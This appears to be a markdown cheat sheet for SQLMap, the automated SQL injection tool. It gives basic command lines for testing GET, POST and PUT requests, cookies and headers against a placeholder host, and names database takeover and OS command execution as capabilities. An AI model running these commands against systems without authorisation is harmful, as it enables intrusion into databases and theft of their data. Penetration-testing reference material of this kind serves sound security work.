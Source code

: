 # SQLMap - SQL Injection Tool

## Overview
SQLMap is an automated SQL injection and database takeover tool for:
- SQL injection detection and exploitation
- Database fingerprinting
- Data extraction from databases
- Database takeover (accessing underlying file system and executing OS commands)

## Basic Usage

### Simple SQL Injection Testing
```bash
# Test URL for SQL injection
sqlmap -u "http://target.com/page.php?id=1"

# Test POST request
sqlmap -u "http://target.com/login" --data="username=admin&password=pass"

# Test with cookie
sqlmap -u "http://target.com/page.php?id=1" --cookie="session=abc123"
```

### Request Methods
```bash
# GET request
sqlmap -u "http://target.com/page.php?id=1"

# POST request with data
sqlmap -u "http://target.com/login" --data="user=admin&pass=test"

# PUT request
sqlmap -u "http://target.com/api" --method=PUT --data="param=value"
```

## Target Specification

### Single Target
```bash
# Basic URL
sqlmap -u "http://target.com/page.php?id=1"

# URL with POST data
sqlmap -u "http://target.com/login" --data="username=admin"

# URL with headers
sqlmap -u "http://target.com/page.php?id=1" --headers="User-Agent: test"
```
